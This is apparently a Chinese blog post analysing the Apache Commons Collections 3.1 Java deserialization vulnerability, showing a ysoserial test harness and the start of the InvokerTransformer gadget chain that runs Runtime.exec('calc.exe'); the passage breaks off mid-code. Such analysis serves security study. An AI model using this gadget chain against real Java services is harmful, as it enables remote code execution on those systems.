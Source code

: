 ```yaml
---
title: Apache Commons Collections 3.1反序列化漏洞分析
description: 各种反序列化介绍的文章中都用到这个例子，我看得云里雾里，自己也来搞一遍
categories:
 - 漏洞分析
tags:
 - 漏洞分析
---
```


实在话，以前学反序列化漏洞，看的都是Apache Commons Collections 3.1的漏洞分析，这个时候这些文章里还有gadget的概念，最后是Commons Collections为什么有漏洞也看不懂，反序列化也没学明白，一定要克服，来搞一波

### 0x00 如何分析反序列化漏洞
#### 目的
目的自然是在应用调用如下代码的时候，能造成命令执行

```
package ysoserial.test;

import ysoserial.payloads.annotation.Dependencies;

import java.io.*;

@Dependencies({"commons-collections:commons-collections:3.1"})
public class Test2 {
    public static void main(String[] args) {
        try {
            FileInputStream fileInputStream = new FileInputStream("test.txt");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
            fileInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
    }
}
```

#### 一些条件
首先，要注意版本问题，这个我们有个`Dependencies`的注解，这个是ysoserial提供的，指定需要的版本，正是因为存在这个版本的库，才会造成漏洞，其次，今天研究的CommonsCollections3.1出现的问题需要在JDK1.7中触发，JDK版本不能太高，注意这些问题会造成的影响，版本问题其实是一个硬限制

然后，这里我们要注意，应用的`inputStream`可能不是上面例子中的`FileInputStream`，可能会有各种各样的来源，这里的来源只是例子

最后，我们研究Java反序列化漏洞，其实很大一部分是研究它的gadget，一般普通公司的业务代码是不会自己改写`readObject`，所以只要调用`readObject`就触发才是好Payload，比如如下一些分析其实gadget并不完整

```
public class Test {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };

        //将transformers数组存入ChaniedTransformer这个继承类
```